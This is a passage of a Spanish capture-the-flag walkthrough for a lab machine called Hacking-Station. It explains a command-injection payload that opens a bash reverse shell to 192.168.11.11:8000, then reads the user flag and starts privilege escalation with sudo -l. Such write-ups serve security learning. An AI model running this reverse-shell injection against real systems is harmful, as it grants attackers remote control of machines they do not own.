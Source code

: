 ```bash
zayrus; bash -c 'bash -i >& /dev/tcp/192.168.11.11/8000 0>&1’
```

Este es un método común para obtener una shell remota en un sistema comprometido.

- El primer `bash` invoca el intérprete de comandos Bash.
- La opción `c` le indica a este primer `bash` que ejecute la cadena de texto que sigue.
- Dentro de la cadena, se invoca un segundo `bash` con la opción `i` para intentar obtener una shell interactiva.
- `>& /dev/tcp/192.168.11.11/8000` intenta abrir una conexión TCP al host `192.168.11.11` en el puerto `8000` y redirige tanto la salida estándar como la salida de error a esta conexión.
- `0>&1` redirige la entrada estándar para que también provenga de la conexión TCP.

### Flag user

![flaguser.png](Hacking-Station%20by%20Zayru5%201e0cb9b1e60b8072af4cf048231c9145/flaguser.png)

1. Navegamos por el sistema hasta la carpeta home del usuario.
    1. Comando para ir al home del usuario
    
    ```bash
    cd ~
    ```
    
    b. Listamos los archivos
    
    ```bash
    ls
    ```
    
    c. Mostrar contenido del archivo
    
    ```bash
    cat user.txt
    ```
    
2. De esta manera encontramos la flag del usuario hacker.

### Escalada de Privilegios y Flag root

Listar los comandos permitidos con sudo

![sudo.png](Hacking-Station%20by%20Zayru5%201e0cb9b1e60b8072af4cf048231c9145/sudo.png)

![1.png](Hacking-Station%20by%20Zayru5%201e0cb9b1e60b8072af4cf048231c9145/1.png)

![1.png](Hacking-Station%20by%20Zayru5%201e0cb9b1e60b8072af4cf048231c9145/1%201.png)

1. Comando:

```bash
sudo -l
```

- Es una herramienta muy útil para **mostrar qué comandos se tiene permitido ejecutar con `sudo` en el sistema con el usuario actual**. Piensa en ello como una lista de "superpoderes" autorizados.
